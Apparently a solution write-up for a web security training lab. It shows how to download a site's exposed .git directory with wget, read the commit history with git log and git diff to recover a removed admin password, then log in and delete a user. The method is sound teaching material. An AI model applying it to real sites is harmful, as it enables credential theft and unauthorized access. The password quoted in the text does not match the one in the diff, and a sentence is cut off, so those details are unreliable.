



## Lab Description :


## Solution :

Once the website loads, goto the **.git** directory . ie - `https://0a0600bf04062d0580600d1b009d00fd.web-security-academy.net/.git`. The page discloses some files like this,


### Retreive the admin's password

To analyse these .git files we can use a tool called 

1. Use the command - `wget -r https://0a0600bf04062d0580600d1b009d00fd.web-security-academy.net/.git/` to save the files along with the .git directory in the folder of our choice in our machine.
   
2. **git log** shows these two commit logs.

```git
commit 2d71b57eb8173d4dfccf38783d6bf4af7325277b (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 55abe007246807a61cf46c90dc12a35a1ec46ab1
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000
    Add skeleton admin panel
```

3. Running `git diff 2d71b57eb8173d4dfccf38783d6bf4af7325277b 55abe007246807a61cf46c90dc12a35a1ec46ab1` gives us the following result which contains the admin password which was removed - **administrator:kw9sxvjbf1eqp40vwm6d**.

```git
diff --git a/admin.conf b/admin.conf
index 21d23f1..9d43cbd 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=env('ADMIN_PASSWORD')
+ADMIN_PASSWORD=vuyhr4nvzldae74u1cyc
```

### Login & delete user carlos -

Login as admin with the password found.



Go to the admin panel & delete user `carlos` to solve the lab.




